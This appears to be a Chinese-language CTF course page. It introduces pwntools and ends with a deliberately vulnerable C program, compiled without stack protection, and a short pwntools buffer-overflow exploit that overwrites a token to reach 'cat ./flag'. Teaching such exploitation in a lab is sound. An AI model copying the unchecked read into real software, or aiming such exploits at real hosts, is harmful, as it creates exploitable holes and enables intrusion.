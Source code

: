 # PWN

# 預先學習pwntools
### PWNTOOLS
- 官方說明
  - pwntools is a CTF framework and exploit development library. 
  - Written in Python, it is designed for rapid prototyping and development, and intended to make exploit writing as simple as possible.
- [官方GITHUB網址](https://github.com/Gallopsled/pwntools)
- [官方教學pwntools-tutorial(英文版)](https://github.com/Gallopsled/pwntools-tutorial#readme)
- [官方使用手冊(英文版)](https://docs.pwntools.com/en/stable/)

### PWNTOOLS安裝(本課程提供的環境已經安裝好了)
#### 1.撰寫安裝SCRIPT: XXX.sh
```
apt-get update
apt-get install python3 python3-pip python3-dev git libssl-dev libffi-dev build-essential
python3 -m pip install --upgrade pip
python3 -m pip install --upgrade pwntools
```
#### 2.執行: bash XXX.sh
```
root@kali:~# gedit pwntools_install.sh
root@kali:~# bash pwntools_install.sh 
```
```
一路yes到底
```
#### 3.查看各種參數 pwn -h
- [ pwn  Command Line Tools](https://docs.pwntools.com/en/latest/commandline.html#pwn)
```
usage: pwn [-h]
           {asm,checksec,constgrep,cyclic,debug,disasm,disablenx,elfdiff,elfpatch,errno,hex,
            phd,pwnstrip,scramble,shellcraft,template,unhex,update,version}
           ...

Pwntools Command-line Interface

positional arguments:
  {asm,checksec,constgrep,cyclic,debug,disasm,disablenx,elfdiff,elfpatch,errno,hex,phd,pwnstrip,scramble,
    shellcraft,template,unhex,update,version}
    asm                 Assemble shellcode into bytes    <=== 重要
    checksec            Check binary security settings   <=== 重要
    constgrep           Looking up constants from header files. Example:
                        constgrep -c freebsd -m ^PROT_ '3 + 4'
    cyclic              Cyclic pattern creator/finder    <=== 重要
    debug               Debug a binary in GDB
    disasm              Disassemble bytes into text format  <=== 重要
    disablenx           Disable NX for an ELF binary
    elfdiff             Compare two ELF files
    elfpatch            Patch an ELF file
    errno               Prints out error messages
    hex                 Hex-encodes data provided on the command line or stdin
    phd                 Pwnlib HexDump
    pwnstrip            Strip binaries for CTF usage
    scramble            Shellcode encoder
    shellcraft          Microwave shellcode -- Easy, fast and delicious
    template            Generate an exploit template
    unhex               Decodes hex-encoded data provided on the command line
                        or via stdin.
    update              Check for pwntools updates
    version             Pwntools version

optional arguments:
  -h, --help            show this help message and exit
```

#### pwntools 常用技術
- 載入pwntools套件 ==> from pwn import *  # 可將所有子模組和一些常用的系統函數庫導入
- 建立與程式連結(connection) 
  - 與遠端程式(使用remote())
    - conn = remote('ip_address', port_num)
    - conn = remote('173.4.5.1', 8888) 
  - 與本地端程式(使用process())==> conn = process('./pwn1')
- 接收資料 receive
  - recv(numb=1096, timeout=default)：接收指定位元組數的資料
  - recvall()：接收資料直到 EOF
  - recvline(keepends=True)：接收一行，可選擇是否保留行尾的 \n
  - recvlines(N):接收 N行輸出
  - recvrepeat(timeout=default)：接收資料直到 EOF(END of FILE) 或 timeout
  - recvuntil(delims, timeout=default)：接收資料直到 delims 出現
- 傳資料
  - send(data)：發送資料
  - sendline(data)：發送一行，預設會在行尾加 \n
  - sendlineafter(delims, 要送出的資料)：從 delims 出現後,將要送出的資料 傳送給程式
- 互動 ==> conn.interactive()
  - 可同時對遠端系統讀寫資料
  - 相當於回到 shell 模式進行互動
  - 在取得 shell 之後調用 
- [pwntools工具的使用](https://blog.csdn.net/A951860555/article/details/110990925)

# 範例學習
```c
#include"stdio.h"
#include"stdlib.h"

int main(){
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);
  
  int token = 1234;
  char key[16];

  printf("Billy left his key in the locked room.\n");
  printf("However, he forgot the token of the room.\n");
  printf("Do you know what's the key?");

  read(0, key, 40);

  if((int)token == 0xdeadbeef){
    printf("Door open. OwO\n");
    system("cat ./flag");
  }else{
    printf("Cannot open door. QwQ\n");
  }

  return 0;
}
```
- gcc -fno-stack-protector -z execstack pass.c -o pass -no-pie
- socat TCP-LISTEN:20000,fork EXEC:'./pass'

# exploit code
```python
from pwn import *

# r = process('./pass')

//r = remote('120.114.62.210',6125)
r = remote('localhost',20000)

payload = b'B'*28
r.sendline(payload+ p64(0xdeadbeef))

r.interactive()
```
